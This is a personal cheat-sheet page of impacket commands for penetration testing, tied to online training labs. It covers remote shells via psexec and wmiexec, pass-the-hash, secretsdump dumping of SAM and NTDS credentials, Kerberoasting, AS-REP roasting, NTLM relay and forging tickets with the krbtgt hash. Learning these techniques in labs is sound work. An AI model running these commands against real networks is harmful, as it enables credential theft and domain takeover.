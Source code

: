 # impacket

[![windowsprivesc20](../../../../cybersecurity/_badges/thmp/windowsprivesc20.svg)](https://tryhackme.com/room/windowsprivesc20)

<div class="row row-cols-lg-2"><div>

[impacket](https://github.com/fortra/impacket) <small>(14.0k ⭐)</small> is a collection of [python](/programming-languages/high-level/scripting/python/index.md) classes for working with network protocols. They are already installed on Kali:

```shell!
$ impacket-secretsdump -h # Example of calling a script
```

You could also install them using `pipx`:

```shell!
$ pipx install git+https://github.com/fortra/impacket
$ secretsdump.py -h # Example of calling a script
```
</div><div>

You may also want to install them manually <small>(dirty/may not work)</small>:

```shell!
$ DEST="$HOME/tools/impacket"
$ git clone -b "master" "https://github.com/fortra/impacket" $DEST
$ pip install --user -r $DEST/requirements.txt
$ pip install --user $DEST
$ python $DEST/examples/secretsdump.py [...]
```

📚 You can refer to [thehacker.recipes](https://tools.thehacker.recipes/impacket) for a list of scripts.
</div></div>

<hr class="sep-both">

## Impacket Overview

<div class="row row-cols-lg-2"><div>

#### Impacket 'target' parameter

Most scripts operating require a **target** such as `username@IP`. You can specify the password within the command.

```shell!
$ impacket-xxx username@IP
$ impacket-xxx username@IP -no-pass
$ impacket-xxx username:password@IP
$ impacket-xxx username:password@IP -windows-auth
$ impacket-xxx domain/username:'password'@IP
```

`-windows-auth` can be specified to indicate that we want to use local authentication <small>(`.\username`)</small> instead of Active Directory authentication.
</div><div>

#### Impacket Alternative Logins

On Linux, as per to these [notes](/operating-systems/cloud/active-directory/security/index.md#active-directory-on-linux), you can log in to active directory and get a TGT ticket. To use it with impacket tools, use `-k` and `-no-pass`.

```shell!
$ impacket-xxx DC01.example.com -no-pass -k
```
</div></div>

<hr class="sep-both">

## Impacket Clients

<div class="row row-cols-lg-2"><div>

#### mssqlclient

Connect to a MSSQL database.

```shell!
$ impacket-mssqlclient username@IP
$ impacket-mssqlclient username:password@IP
$ impacket-mssqlclient username:password@IP -windows-auth
$ impacket-smbclient -no-pass domain\username@IP -hashes lmhash:nthash
SQL> exit
```

#### smbclient

Connect to a SMB server.

```shell!
$ impacket-smbclient 'username':'password'@IP
$ impacket-smbclient IP
smbclient> shares
smbclient> use share_name
smbclient> ls
smbclient> tree
```
</div><div>

#### wmiexec

Pop a semi-interactive shell using [DCOM](/operating-systems/networking/protocols/dcom.md). It runs commands as Local Administrator if possible, but creates a new process per command.

```shell!
$ impacket-wmiexec -shell-type powershell username:password@IP
$ impacket-wmiexec -shell-type powershell username:password@IP "hostname"
```

#### smbexec

XXX.

```shell!
$ impacket-smbexec username:password@IP
```

#### psexec

Pop a semi-interactive remote shell using RemComSvc. It runs commands as SYSTEM to it's quite suspicious and making noise.

```shell!
$ impacket-psexec username:password@IP
$ impacket-psexec [...] -hashes lmhash:nthash
$ impacket-psexec [...] -hashes :nthash
$ impacket-psexec [...] -target-ip 172.16.5.5
$ impacket-psexec [...] -k -no-pass
```
</div></div>

<hr class="sep-both">

## Impacket Servers

<div class="row row-cols-lg-2"><div>

#### smbserver

[![password_attacks](../../../../cybersecurity/_badges/htb/password_attacks.svg)](https://academy.hackthebox.com/course/preview/password-attacks)

Run a [SMB](../smb.md) server to which user will connect with the username XXX and the password YYY. Files will be stored in `/path/to/share`.

```shell!
$ # impacket-smbserver -smb2support share_name /path/to/share
$ impacket-smbserver -smb2support share .
$ # impacket-smbserver -smb2support -username XXX -password YYY share_name /path/to/share
$ impacket-smbserver -smb2support -username username -password password share .
```
</div><div>
</div></div>

<hr class="sep-both">

## Windows Utilities

<div class="row row-cols-lg-2"><div>

#### secretsdump

[![password_attacks](../../../../cybersecurity/_badges/htb/password_attacks.svg)](https://academy.hackthebox.com/course/preview/password-attacks)

Dump hashes from a backup of SAM and SYSTEM hashes. There are local credentials and domain cached credentials.

```shell!
$ impacket-secretsdump -sam XXX -system YYY LOCAL
$ impacket-secretsdump -sam XXX -security XXX -system XXX LOCAL
$ impacket-secretsdump -system ./system.hive -ntds ./ntds.dit LOCAL
$ impacket-secretsdump [...] -outputfile cracked 
<output format is explained in the output>
```

You can remotely dump hashes using:

```shell!
$ impacket-secretsdump domain/username:password@target
$ impacket-secretsdump [...] -just-dc # ???
$ impacket-secretsdump [...] -just-dc-user krbtgt
$ impacket-secretsdump [...] -just-dc-user 'example.com/username'
$ impacket-secretsdump [...] -outputfile hashes
$ impacket-secretsdump [...] -hashes lmhash:nthash
$ impacket-secretsdump [...] -dc-ip IP
```

#### ticketConverter

Convert tickets.

```shell!
$ impacket-ticketConverter xxx yyy.kirbi # from ccache to kirbi
$ impacket-ticketConverter xxxx.bin xxx.kirbi # same
$ impacket-ticketConverter xxx.kirbi xxx.ccache # from kirbi to ccache
```
</div><div>

#### GetUserSPNs

Refer to Kerberoasting.

```shell!
$ impacket-GetUserSPNs EXAMPLE.COM/username -k -no-pass
$ impacket-GetUserSPNs EXAMPLE.COM/username@EXAMPLE.COM -k -no-pass
$ impacket-GetUserSPNs -dc-ip IP domain/user:password # list all
$ impacket-GetUserSPNs [...] -request # get TGS for all
$ impacket-GetUserSPNs [...] -request-user cn
$ impacket-GetUserSPNs [...] -outputfile cn_tgs
$ impacket-GetUserSPNs [...] -target-domain dev.example.com
```

#### GetNPUsers

Refer to asreproasting.

```shell!
$ impacket-GetNPUsers -dc-ip DC01 domain/username:password
$ impacket-GetNPUsers -dc-ip IP -usersfile valid_users.txt domain/junkusername -no-pass
```

#### GetNPUsers

Refer to GPO Passwords.

```shell!
$ impacket-Get-GPPPassword -xmlfile Groups.xml LOCAL
```

</div></div>

<hr class="sep-both">

## Impacket MS-RPC Utilities

<div class="row row-cols-lg-2"><div>

Refer to [MS-RPC](/operating-systems/networking/protocols/rpc.md#rpc-smb-footprinting).

#### samrdump

List users and domains.

```shell!
$ impacket-samrdump IP
$ impacket-samrdump username:password@IP
```

#### lookupsid

Expose the domain SID and groups/usernames RID using brute force.

```shell!
$ impacket-lookupsid username:password@IP
$ impacket-lookupsid -domain-sids username:password@IP
```
</div><div>

#### rpcdump

```shell!
$ impacket-rpcdump @DCIP
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

```shell!
$ impacket-dpapi unprotect -file xxx -key "xxx"
$ impacket-dpapi masterkey -file H-I-J-K-L -sid S-A-B-C-D-E-F-G -password password
```

```shell!
$ impacket-ntlmrelayx --no-http-server -smb2support -t IP -c '<command>'
$ impacket-ntlmrelayx -debug -smb2support --target http://target/certsrv/certfnsh.asp --adcs --template DomainController
$ impacket-ntlmrelayx --no-http-server -smb2support -t IP -c '<command>'
```
```shell!
$ impacket-ticketer -nthash <krbtgt hash> -domain dev.example.com -domain-sid <child domain SID> -extra-sid <target domain SID> dummy
```
</div><div>

```shell!
$ impacket-raiseChild -target-exec 172.16.5.5 dev.example.com/username:password
```
</div></div>